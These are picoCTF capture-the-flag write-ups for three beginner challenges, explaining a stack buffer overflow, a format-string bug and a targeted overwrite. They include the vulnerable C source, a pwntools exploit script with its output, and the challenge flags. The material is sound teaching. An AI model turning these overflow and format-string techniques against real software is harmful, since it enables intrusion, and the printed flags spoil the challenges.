



# Buffer Overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using: `nc saturn.picoctf.net 55573`

## Solution:

The challenge provides a binary executable `vuln` and its source code `vuln.c`. Analysis reveals a classic buffer overflow vulnerability where user input can exceed allocated buffer boundaries.

The critical vulnerability exists in the `vuln()` function:
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

The `strcpy()` function copies user input into a 16-byte buffer without bounds checking. When input exceeds this limit, it overwrites adjacent memory. The program includes a signal handler that prints the flag when a segmentation fault occurs, providing the exploitation mechanism.

Researching the `gets()` function documentation confirmed it doesn't perform buffer boundary checks, making it inherently dangerous. Input longer than 16 characters successfully triggers the buffer overflow and reveals the flag through the segmentation fault handler.





Testing with excessive input demonstrates the successful exploitation:



## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Buffer overflow vulnerabilities in C programs
- Unsafe string handling functions (`gets()`, `strcpy()`)
- Signal handlers for segmentation faults
- Memory corruption through boundary violations
- Basic binary exploitation principles

## Notes:

- The `gets()` function is deprecated in modern C due to security risks
- Proper input validation and bounds checking prevents buffer overflows
- Signal handlers can serve both debugging and exploitation purposes
- Stack-based overflows form the foundation of binary exploitation

## Resources:

- `man gets` documentation
- Buffer overflow educational materials

---

# Format String 0

> Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here.

## Solution:

This challenge involves exploiting format string vulnerabilities in a burger restaurant application. The source code analysis reveals improper usage of `printf()` where user input is directly passed as the format string argument without proper sanitization.

The vulnerability manifests in the customer service functions where user choices are processed through vulnerable printf calls. The complete source code shows the unsafe implementation:

```c
void serve_patrick() {
    // ... interface code ...
    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);  // VULNERABLE: user input as format string
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    // ... interface code ...
    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);  // VULNERABLE: user input as format string
        fflush(stdout);
    }
}
```

This unsafe pattern allows attackers to use format specifiers like `%s`, `%d`, `%x`, and `%n` to manipulate memory access. The solution requires selecting menu items containing these format specifiers.

For the first customer Patrick, choosing "Gr%114d_Cheese" utilizes the `%114d` format specifier that prints an integer right-aligned in 114 characters. For the second customer Bob, selecting "Cla%sic_Che%s%steak" employs `%s` specifiers that attempt to read string pointers from the stack.

When these specially crafted inputs process through the vulnerable `printf()` calls, they trigger memory access violations that eventually reveal the flag through the program's error handling mechanism.

The successful exploitation sequence:
```
➜  ~ nc mimas.picoctf.net 61644

Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Concepts learnt:

- Format string vulnerability exploitation
- Unsafe `printf()` implementation patterns
- Format specifier manipulation (`%s`, `%d`, `%x`)
- Memory access through format strings
- Program crash induction for flag extraction

## Notes:

- Format string vulnerabilities occur when user input becomes the format argument
- Secure usage requires `printf("%s", user_input)` instead of `printf(user_input)`
- Different format specifiers enable various memory manipulation capabilities
- This vulnerability class can lead to information disclosure and code execution

## Resources:

https://owasp.org/www-community/attacks/Format_string_attack

---

# Clutter Overflow

Description: 
> Clutter, clutter everywhere and not a byte to use.

We are provided with two files, `chall`(binary file) and `chall.c`

## Solution:

This challenge presents a controlled buffer overflow scenario where the objective is to overwrite a specific variable (`code`) with the value `0xdeadbeef` to obtain the flag. The program utilizes the vulnerable `gets()` function to read input into a 256-byte buffer.

Using GDB debugging, the stack layout was meticulously analyzed to determine the precise offset required to reach the `code` variable. Disassembly examination showed `code` stored at `[rbp-0x8]` with the buffer beginning at `[rbp-0x110]`.

The offset calculation determined:
- Buffer size: 256 bytes (0x100)
- Distance to `code`: 264 bytes (256 + 8)

A Python script utilizing the `pwntools` library was developed to send a payload comprising 264 padding bytes followed by the target value `0xdeadbeef` in little-endian format:

```python
from pwn import *

p = remote('mars.picoctf.net', 31890)
payload = b'A' * 264
payload += p64(0xdeadbeef)
p.sendline(payload)
p.interactive()
```

The exploit successfully overwrites the `code` variable, triggering the flag output mechanism with the complete program output:

```
[+] Opening connection to mars.picoctf.net on port 31890: Done
______________________________________________________________________
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x00\x00\x00\x00'
[*] Switching to interactive mode
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Precise buffer overflow exploitation techniques
- Stack frame analysis using GDB debugging
- Memory distance calculations for targeted overwrites
- Little-endian byte order considerations
- `pwntools` library utilization for exploit development

## Notes:

- The `gets()` function's lack of input length validation enables exploitation
- Understanding stack frame structure is essential for precise memory manipulation
- GDB debugging provides crucial insights into memory layouts
- Python's `pwntools` significantly streamlines exploit development
- Endianness awareness is critical when writing specific values to memory

## Resources:

https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14
https://ctf101.org/binary-exploitation/
